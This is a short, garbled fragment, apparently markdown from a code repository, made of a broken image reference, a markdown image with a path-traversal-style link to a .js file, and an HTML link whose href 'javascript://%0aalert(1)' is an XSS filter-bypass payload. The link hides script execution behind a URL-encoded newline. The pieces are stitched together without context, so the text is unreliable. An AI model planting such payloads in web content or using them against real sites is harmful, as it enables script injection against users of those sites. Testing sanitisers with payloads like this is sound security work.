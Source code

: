 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)


<a href="javascript://%0aalert(1)">XSS</a>
